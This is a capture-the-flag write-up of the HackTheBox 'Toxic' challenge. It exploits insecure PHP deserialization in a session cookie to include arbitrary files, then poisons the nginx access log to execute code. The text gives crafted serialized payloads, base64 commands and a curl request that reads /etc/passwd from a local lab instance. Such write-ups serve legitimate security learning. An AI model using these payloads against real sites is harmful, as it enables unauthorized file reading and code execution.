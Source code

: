 ```yaml
---
title: Toxic HackTheBox Challenge
published: ture
tags: [htb, php, logfile poisoning, ctf, include, base64, serialize, unserialize, cookie, ]
---
```


# Toxic

given a website with following code: 
```php 
<?php
spl_autoload_register(function ($name){
    if (preg_match('/Model$/', $name))
    {
        $name = "models/${name}";
    }
    include_once "${name}.php";
});

if (empty($_COOKIE['PHPSESSID']))
{
    $page = new PageModel;
    $page->file = '/www/index.html';

    setcookie(
        'TESTITEST', 
        base64_encode(serialize($page)), 
        time()+60*60*24, 
        '/'
    );

    

} 

$cookie = base64_decode($_COOKIE['PHPSESSID']);
unserialize($cookie);
```

If no cookie is set it serializes the current page object and saves it base64 encoded as a cookie. However if the request already contains a cookie it tries to unserialize it which could be exploited. 
The serialized cookie looks like the following: 
```
O:9:"PageModel":1:{s:4:"file";s:15:"/www/index.html";}%
```

> note that all the `s:` represents the size of all the following strings and should be modified if the strings changes

The `PageModel` has an attribute `file` which is `include`d.
```php
<?php
class PageModel
{
    public $file;

    public function __destruct() 
    {
        include($this->file);
    }
}
```

So if we can modify the `file` attribute which gets unserialized get have a chance that this file gets presented. 

As a little proof of concept we can try to load the `/etc/passwd` file. 
Therefore we have to modify the serialized object like the following: 
```
O:9:"PageModel":1:{s:4:"file";s:11:"/etc/passwd";}%
```

> note the size again

Now we have to base64 encode this object again. 

```
echo 'O:9:"PageModel":1:{s:4:"file";s:11:"/etc/passwd";}%' | base64
```

Now send a request to the site with the crafted cookie:

```bash
curl localhost:1337/index.php --cookie "PHPSESSID=Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoxMToiL2V0Yy9wYXNzd2QiO30lCg=="
```

We get the `passwd` file back :D

The problem now is, that the flag gets randomized like the following:

```bash
# Generate random flag filename
mv /flag /flag_`cat /dev/urandom | tr -dc 'a-zA-Z0-9' | fold -w 5 | head -n 1`
```

So it is impossible to predict the file name. Also it is not possible to get the contents of the directory with the `include` function. 

But whats possible instead is to poison the logfile and display it. Since the `include` function tries to display all files like php files and tries to execute php code in it we can simply make a request with php code as user agent and the code gets written to the log file. 
To keep it simple I just execute a `ls /` to print all contents of the root directory. 
![BurpSuite Request](../assets/Toxic-Burp-Request.png "BurpSuite Request")

We also know where the log file is because of the provided `nginx.conf`
When we now modify the object to load the logfile `/var/log/nginx/access.log`
```
echo 'O:9:"PageModel":1:{s:4:"file";s:25:"/var/log/nginx/access.log";}%' | base64
```
It includes the logfile and executes the code we send in the step before. 

We get presented the acutal filename of the flag and can read the flag again with the modified object which gets unserialized. 
